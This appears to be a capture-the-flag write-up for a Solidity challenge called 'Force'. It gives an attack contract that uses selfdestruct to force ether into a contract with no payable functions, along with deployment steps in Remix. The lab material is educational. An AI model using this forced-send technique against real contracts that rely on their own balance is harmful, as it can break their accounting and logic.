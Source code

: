 # Challenge 7

<img src="./images/BigLevel7.svg" alt="7" >

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

Challenge
---
> Some contracts will simply not take your money ¯\_(ツ)_/¯

  The goal of this level is to make the balance of the contract greater than zero.

  Things that might help:

  - Fallback methods
  - Sometimes the best way to attack a contract is with another contract.

Solution 
---
1. `selfdestruct` - get all the contracts ethers and send i to the designated address.

2. Hope in the Remix and paste your instance address from the terminal and paste it into the `At Address`. now you will see contract.

3. Create new Contract Here's The code ⬇️
```solidity
contract ForceAttack {
    Force forceAddress;

    constructor(address _addr) public {
        forceAddress = Force(_addr);
    }

    // destroy the contract and send all the ether amount to force contract
     function sendEther() public payable {
         require(msg.value > 0);
         selfdestruct(payable(address(forceAddress)));
     }   

     receive() external payable{}

     fallback() external payable{}
}
```

get the Force Contract address and Add it to the Deploy input box and Deploy, Send 1 wei (enough for our solution) you will see Force Contracts received 1 wei amount into the contract. submit the instance your challenge will be cleared. 🎉